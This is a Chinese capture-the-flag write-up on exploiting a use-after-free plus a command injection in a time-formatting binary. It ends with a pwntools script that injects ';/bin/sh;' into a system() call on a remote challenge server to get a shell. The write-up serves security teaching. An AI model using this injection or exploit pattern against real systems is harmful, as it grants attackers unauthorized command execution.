

这应该算是一道堆题罢(doge)，虽然只是个非常简单的UAF

<!--more-->

首先查壳



有个FORTIFY_SOURCE的对格式化字符串的保护

1. 包含%n的格式化字符串不能位于程序内存中的可写地址。

2. 当使用位置参数时，必须使用范围内的所有参数。所以如果要使用%7$x，你必须同时使用1,2,3,4,5和6。

扔进ida看看源码，又是菜单,看代码改函数名弄到想吐

简单解释一下这个程序的功能：
- set_format():会用strdup申请一个chunk来存放输入的字符串，之后会对进行字符串中的字符进行检查（只能有字母、%、空格、：、#、-、_、0、/、^），不满足条件则会被free掉，**若满足，则会将chunk指针赋值给一个bss段中的变量ptr**
- set_time():把你的输入写到一个固定的地方(没用)
- set_zone():会用strdup申请一个chunk来存放输入的字符串，**但是不像set_format()那样进行检查**，chunk指针会赋值给value
- print_time():如果ptr中有值，则会执行system(command)，command通过snprintf构造(**有漏洞**)
- my_exit():先free了ptr和value，再问你是不是真的要退出，却并没有让ptr和value=>null，也没有清空其中的内容

下面仔细看看值得注意的地方:

**1.print_time()中command的构造**
```c
__snprintf_chk(command,2048LL,1LL,2048LL,"/bin/date -d @%d +'%s'",(unsigned int)dword_602120,(const char *)ptr);
```
这是什么东西?

据说函数原型是这样的
```c
int snprintf(char *restrict buf, size_t n, const char * restrict  format[, arguement]);
//str为要写入的字符串；n为要写入的字符的最大数目，超过n会被截断；format为格式化字符串,arguement为格式化字符串的参数
```

虽然不知道为什么2048LL后面有个1L,2048LL，但可以知道的是，ptr就是格式化字符串的第二个参数，其内容会写入%s处，因此如果可以在这里写入/bin/sh就可以执行system("/bin/sh")了

但是也没这么容易，还有一些坑：
1. 前面已经有一条指令/bin/date ...了，要让shell执行ptr的指令（即一条语句执行两条指令），需要用到&&或;。由于&&需要前一条指令执行完才会执行第二条，而;则不需要，因此ptr中的内容要改为;/bin/sh
2. 还有另一个坑，在格式化字符串中是'%s'，%s外面是单引号，而要执行system("/bin/sh"),/bin/sh要在单引号外面，因此在前后加上单引号，并且为了不出错，后面也要加上一个;，最后变为';/bin/sh;'

**2.set_format()和set_zone()**

set_format()和set_zone()中都有一个函数strdup()
```c
extern char *strdup(char *s);
//功 能: 将字符串拷贝到新建的位置处
//strdup()在内部调用了malloc()为变量分配内存
```
set_format()可以将指针赋值给ptr;set_zone()可以将指针赋值给value

除此之外，在set_format()中拷贝完字符串后，会对字符串内容进行检查
```c
strcpy(accept, "%aAbBcCdDeFgGhHIjklmNnNpPrRsStTuUVwWxXyYzZ:-_/0^# ");// 字符只能在这个范围内
v3 = __readfsqword(0x28u);
return strspn(s, accept) == strlen(s);
```
这让我们不能直接通过set_format()将ptr指向';/bin/sh;'

**但是在set_zone()中并没有安全检查**

**3.my_exit()的迷之操作**

在my_exit中会先free了ptr和value，再问你是否要退出,**但是在free之后,ptr和value没有指向null，也没有清空其中的内容，也就是存在UAF**

利用过程：
1. 通过set_format()存放一个字符串（chunk长度要和';/bin/sh;'一致）
2. my_exit()实现free(ptr)
3. 通过set_zone()将原来的chunk申请回来，并利用其不进行检查的特点，写入';/bin/sh;'
4. 执行print_time()，getshell


exp:
```python
from pwn import*
elf=ELF("./formatter")
context.log_level='debug'
#p=process("./formatter")
p=remote('111.200.241.244',57516)

def set_format(fmt):
    p.recvuntil('> ')
    p.sendline('1')
    p.recv()
    p.sendline(fmt)

def set_zone(zone):
    p.recvuntil('> ')
    p.sendline('3')
    p.recv()
    p.sendline(zone)

def print_time():
    p.recvuntil('> ')
    p.sendline('4')
    #gdb.attach(p)
    p.interactive()

def my_exit():
    p.recvuntil('> ')
    p.sendline('5')
    p.recv()
    p.sendline('n')


set_format("aaaaaaaaaaa")
my_exit()
set_zone("';/bin/sh;'")
print_time()

```

